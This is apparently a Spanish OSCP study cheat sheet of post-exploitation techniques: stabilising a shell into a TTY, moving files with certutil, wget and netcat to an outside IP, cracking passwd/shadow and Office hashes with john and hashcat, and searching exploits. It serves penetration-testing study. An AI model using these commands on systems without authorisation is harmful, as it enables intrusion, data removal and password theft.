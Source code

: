  

### Tratamiento de la TTY[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#tratamiento-de-la-tty)

script /dev/null -c bash # Lanza pseudoconsola

[ctrl+z] # Suspende la shell actual

stty raw -echo

fg # Recupera la shell suspendida

reset # Reinicia la configuración de la terminal

xterm # Especifica el tipo de terminal

export TERM=xterm # Asigna xterm a la variable TERM

export SHELL=bash # Asigna bash a la variable SHELL

stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>

Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a

 
### Lanzar una TTY Shell con Python[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#lanzar-una-tty-shell-con-python)

python -c 'import pty; pty.spawn("/bin/sh")'

 

### Descompresión[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#descompresion)

#.tar

tar -xf archive.tar.gz

#.gz

gzip -d file.gz

#.zip

unzip file.zip

 

### Comparación de archivos[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#comparacion-de-archivos)

diff -c scan-a.txt scan-b.txt

comm scan-a.txt scan-b.txt

 
### Transferencia de archivos[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#transferencia-de-archivos)

#HTTP

#Servidor

python3 -m http.server

python -m SimpleHTTPServer

#Cliente

certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt

wget http://<SERVER_IP>/file.txt

​

#FTP

#Servidor

python3 -m pyftpdlib

#Cliente

ftp <SERVER_IP>

​

#Netcat

#Servidor

nc 10.10.14.2 4242 < file.tgz

#Cliente

nc -lvnp 4242 > file.tgz

 

### Sniffing[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#sniffing)

tcpdump -i tun0 icmp -n
 

### Cracking[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#cracking)

#Básico

john --wordlist=/usr/share/wordlists/rockyou.txt hash

hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt

​

#Cracking de contraseñas con passwd y shadow

unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>

​

#Cracking de documentos encriptados de Office

office2john.py <Ruta_Documento> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>


### Búsqueda de exploits[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#busqueda-de-exploits)
```
searchsploit <SOFTWARE>

searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit

searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```